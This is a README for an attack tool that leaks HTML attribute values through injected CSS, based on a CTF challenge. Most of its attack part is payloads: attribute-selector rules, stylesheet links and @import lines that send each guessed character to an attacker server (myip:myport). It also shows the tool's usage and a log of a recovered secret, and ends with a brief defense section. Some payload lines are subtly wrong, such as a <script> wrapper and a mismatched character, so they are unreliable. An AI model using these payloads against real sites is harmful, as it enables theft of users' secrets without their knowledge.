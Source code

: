 # CSS Exfil

## Concept
This is inspired by a web challenge called "Free as is Freedom" that was proposed in the 2019 [X-MAS CTF](https://xmas.htsp.ro/home). In this challenge you were able to inject an arbitrary string into a document that the victim would then load in a browser. It looks like a traditionnal XSS challenge, except in this case the CSP doesn't allow you to run javascript and there is no way around it. Instead, the idea is to exfiltrate the value of an HTML attribute using [CSS attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors).

Let's say you want to exfiltrate the value of the `value` attribute:
```html
<input type="text" id="name" value="S3cr3t">
```
What you need to do is inject a bunch of [CSS attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors), each matching a value starting with a different character:
```HTML
<style>
input#name[value^="a"] { background: url("http://myip:myport/reveal?c=a"); }
input#name[value^="b"] { background: url("http://myip:myport/reveal?c=b"); }
...
input#name[value^="S"] { background: url("http://myip:myport/reveal?c=S"); }
...
</style>
```
It can be done either by injecting the payload above directly into the victim's document, or by injecting a link to your own web server, which will respond with the same payload (without the `<style>` tags):
```HTML
<link rel="stylesheet" href="http://myip:myport/evil.css">
```
It can also be done using CSS imports:
```HTML
<style>@import url("http://myip:myport/evil.css");</style>
```
Either way, only one the CSS selectors will match, and it will trigger a `GET` request to your server to load the corresponding background image. In this case, you will receive the following request:
```
GET /reveal?c=S HTTP/1.1
...
```
You've read the first character. You can repeat the process to read the second character using this payload:
```HTML
<script>
input#name[value^="Sa"] { background: url("http://myip:myport/reveal?c=a"); }
input#name[value^="Sb"] { background: url("http://myip:myport/reveal?c=b"); }
...
input#name[value^="S3"] { background: url("http://myip:myport/reveal?c=S"); }
...
</script>
```
# The Script
The `css_exfil.py` script automates this process. It uses [Flask](https://palletsprojects.com/p/flask/) to serve the payloads and retrieve the exfiltrated characters. A request to `/evil.css` returns the set of CSS attribute selectors that is used to reveal the next character. A request to `/reveal?c=x` (made to retrieve the background image) returns a 404 error and adds `x` to the exfiltrated secret. It two consecutive requests are made to the `/evil.css` URL with no `/reveal` request in between then it means the last set of CSS attribute selectors haven't matched anything, and the secret has been read completely.

For this to work, we need the victim to make repeated requests to `evil.css`. It can be done by adding a `refresh` to the injected payload:
```html
<link rel="stylesheet" href="http://myip:myport/evil.css">
<meta http-equiv="refresh" content="1">
```
The script is run as follows:
```
$ ./css_exfil.py -l $myip:$myport -s 'input#name' -a value
 * Serving Flask app "css_exfil" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:8080/ (Press CTRL+C to quit)
127.0.0.1 - - [23/Dec/2019 18:25:38] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:38] "GET /reveal?c=S HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:39] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:39] "GET /reveal?c=3 HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:40] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:40] "GET /reveal?c=c HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:41] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:41] "GET /reveal?c=r HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:42] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:42] "GET /reveal?c=3 HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:43] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:43] "GET /reveal?c=t HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:44] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:45] "GET /evil.css HTTP/1.1" 200 -
S3cr3t
```
## Defense
Other than properly sanitizing user input to prevent HTML injection, the `style-src-elem` or the broader `style-src` (or `default-src`) CSP rules can be set to prevent loading CSS files from untrusted sources.
## Links
[Stealing Data With CSS: Attack and Defense](https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense)

